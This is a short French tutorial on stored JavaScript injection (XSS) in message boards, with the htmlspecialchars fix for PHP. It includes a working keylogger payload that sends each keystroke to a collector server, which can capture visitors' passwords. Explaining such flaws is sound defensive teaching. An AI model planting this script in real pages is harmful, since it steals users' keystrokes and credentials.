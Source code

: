 # Injection JS
## Explication de la faille
Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.
```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
    var l = e.which || e.keyCode;
    var http = new XMLHttpRequest();
    http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
    http.send();
}
</script>
```
## Explication du correctif
Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.